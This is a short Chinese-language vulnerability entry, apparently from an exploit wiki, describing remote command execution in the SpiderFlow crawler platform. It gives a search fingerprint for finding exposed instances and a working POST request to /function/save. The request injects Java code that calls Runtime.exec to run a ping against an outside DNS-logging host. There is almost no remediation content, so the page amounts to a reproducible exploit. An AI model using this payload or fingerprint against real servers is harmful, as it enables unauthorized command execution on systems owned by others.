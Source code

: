 # SpiderFlow save 远程命令执行漏洞

## 漏洞描述

SpiderFlow 平台以流程图的⽅式定义爬⾍,是⼀个⾼度灵活可配置的爬⾍平台 

官⽹：https://www.spiderflow.org/

## 漏洞影响

<a-checkbox checked>SpiderFlow</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="SpiderFlow"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1640438666683-12d29712-e90c-483b-b311-9fd25f852ca4.png)

发送请求包执行命令

```go
POST /function/save

id=&name=cmd&parameter=yw&script=}Java.type('java.lang.Runtime').getRuntime().exec('ping chwd71.dnslog.cn');{
```

![img](/assets/PeiQi-Wiki/img/1640438711420-73f701ff-c390-4201-96df-1e62cdf44208.png)